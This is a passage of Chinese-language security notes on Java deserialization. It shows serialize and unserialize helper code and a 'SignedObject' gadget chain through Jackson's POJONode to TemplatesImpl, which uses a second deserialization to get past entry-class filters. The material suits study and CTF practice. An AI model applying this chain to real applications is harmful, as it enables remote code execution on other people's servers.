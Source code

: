 ```java
    {
        java.io.FileOutputStream fos = new java.io.FileOutputStream("ser.bin");
        java.io.ObjectOutputStream oos = new java.io.ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException
    {
        java.io.FileInputStream fis = new java.io.FileInputStream(Filename);
        java.io.ObjectInputStream ois = new java.io.ObjectInputStream(fis);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```

### SignedObject链

打二次反序列化，用于绕过自定义了POJONode对入口类的筛查，循环嵌套过滤的不能绕过

SignedObject.getObject能反序列化this.content：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241014214004303.png)

content能在构造函数赋值

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241014214038344.png)

SignedObject装配恶意类，然后找能触发getter的地方

利用链：

```java
BadAttributeValueExpException.readObject ->
    POJONode.toString ->
    	InternalNodeMapper,nodeToString ->
    	JSONMapper.writeValueAsString -> 
    		SignedObject.getObject ->
    BadAttributeValueExpException.readObject ->
    POJONode.toString ->
    	InternalNodeMapper,nodeToString ->
    	JSONMapper.writeValueAsString -> 
    		TemplatesImpl.getOutputProperties
```



参考链接：

https://xz.aliyun.com/t/12966?time__1311=GqGxuD9QLxlr%3DiQGkDRQDcWLmxY5q4Qox#toc-26



